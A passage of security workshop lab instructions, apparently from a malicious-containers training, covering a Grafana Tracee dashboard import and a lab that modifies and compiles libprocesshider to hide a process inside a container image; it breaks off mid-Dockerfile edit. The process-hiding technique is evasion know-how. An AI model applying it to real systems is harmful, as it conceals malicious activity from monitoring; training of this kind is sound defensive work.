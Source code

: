 Under top-left menu hamburger menu &rarr; Dashboards

Select New &rarr; Import

In another tab, open the link below and copy the json from there

```
https://raw.githubusercontent.com/lockfale/Malicious_Containers_Workshop/dc31/DC31/grafana/tracee-dashboard.json
```

Paste the json in the text box labeled 'Import via panel json'

Click the `[Load]` button

## Appendix


### Slide 161 - Exercise: Libprocess hider lab

#### This lab was part of our original workshop, but eBPF and other changes like observability sitting outside namespace have made it irrelevant. That said, it's still a fun exercise and shows off some cool LoL techniques for data exfil.

Let's go back to our cmddemo Dockerfile
```
cd ~/imagetest
```
```
git clone https://github.com/gianlucaborello/libprocesshider
```
```
cd libprocesshider && vi processhider.c
```

Change this:
```
/*
 * Every process with this name will be excluded
 */
static const char* process_to_filter = "evil_script.py";
```
to this (use `i` to enter insert mode in vi):
```
static const char* process_to_filter = "sleep";
```
> After changing, hit `[ESC]`, then type `:wq`

Compile:
```
make
```

### Slide 162 - Libprocess hider lab (cont.)

```
cd ..
```
We're going to update the Dockerfile from our cmddemo to do more things
```
vi Dockerfile
```
We're going to add 4 new lines
